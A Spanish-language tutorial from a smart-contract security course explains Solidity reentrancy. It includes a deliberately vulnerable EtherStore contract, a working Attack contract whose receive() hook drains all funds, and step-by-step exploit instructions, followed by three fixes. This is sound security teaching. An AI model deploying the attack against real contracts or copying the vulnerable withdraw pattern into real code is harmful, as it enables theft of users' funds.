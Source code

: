 # Reentrancy simple

Contribución creada como parte del [Curso de Introducción a Seguridad de Smart Contracts](https://platzi.com/clases/2721-seguridad-smart-contracts/45716-reentrancy-simple/) de **Platzi**. 

--

**El depósito y retiro de ETH en un contrato** por parte de un usuario **puede exponer vulnerabilidades** si los mismos no se realizan de la forma correcta.

## Reentrada de transacciones
Uno de los problemas de seguridad más comunes es el denominado **Reetrancy** que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado
Utilizaremos de ejemplo un contrato inteligente que permite depositar y retirar ETH. Cada dirección solo puede retirar sus propios fondos, pero la vulnerabilidad permitirá que un atacante se quede con todos los fondos.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/re-entrancy/).

### Contratos involucrados
Comencemos con el contrato principal que contiene la lógica de negocios para el depósito y retiro de Ether.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
    mapping(address => uint) public balances;

    // Deposito de ETH
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Retiro de ETH
    function withdraw() public {
        uint monto = balances[msg.sender];
        require(monto > 0);

        (bool sent, ) = msg.sender.call{value: monto}("");
        require(sent, "El envio de ETH ha fallado.");  
        balances[msg.sender] = 0;
    }

    // Funciona auxiliar para visualizar el balance total del contrato
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Por otro lado, el contrato atacante. Presta atención a la función `receive()` que es la vía por la cual se genera la recursividad y permite el robo de todos los fondos.

```js
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        // Creamos la instancia de EtherStore.
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Función receive() es llamada cuando EtherStore envia ETH a este contrato.
    receive() external payable {
        // Al retirar el primer ETH, EtherStore lo enviará a este hook que vuelve a llamar a withdraw de forma recursiva
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    // El ataque consiste en depositar 1 ETH e inmediatamente retirarlo
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Funciona auxiliar para visualizar el balance total del contrato.
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Procedimiento para vulnerar el contrato
* 1. Desplegar el contrato `EtherStore`.
* 2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
* 3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `EtherStore`.
* 4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recibirá los 3 ETH.

> **CONSEJO:** Te animo a que tu mismo despliegues los contratos en entornos como [Remix](https://remix.ethereum.org/) para que explores la vulnerabilidad y veas que, efectivamente, el contrato atacante se queda con todos los fondos.

### ¿Qué sucedió aquí?
`Attack` llamó a `EtherStore.withdraw` múltiples veces antes de que `EtherStore.withdraw` finalice su ejecución. 

**Así es el orden de llamados de las funciones:**
- `Attack.attack`
- `EtherStore.deposit`
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)

### ¿Por qué sucedió?
Al realizarse las llamadas de forma recursiva, **el balance de la cuenta del atacante nunca llega a 0** y, por lo tanto, permite seguir haciendo retiros. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");  
    balances[msg.sender] = 0;
}
```

### ¿Cómo se puede evitar?
Hay al menos tres medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    
    balances[msg.sender] = 0;   // Seteo del balance antes del 'msg.sender.call'

    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");  
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.

```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

3. Otra forma de solucionar esta vulnerabilidad es con **un modificador que valide que la función no se esté llamando de forma recursiva**. Afortunadamente, [OpenZeppelin ya tiene un contrato auditado y seguro](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) para solventar este problema.

```js
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStore is ReentrancyGuard {
    // ...

    function withdraw() public nonReentrant {
        // ...
    }
}
```

## Conclusión
Has visto hasta aquí la exigencia de desarrollar un contrato inteligente que administre correctamente fondos. Un simple cambio de orden en la lógica de un contrato puede causar perdidas millonarias. Claro que ya las ha causado y, por este motivo, **Reentrancy** es una vulnerabilidad bien conocida que debes prevenir estudiando su funcionamiento y escribiendo código de forma segura.

---
**Contribución creada por:** *Kevin Fiorentino* **en colaboración con** *Platzi*.
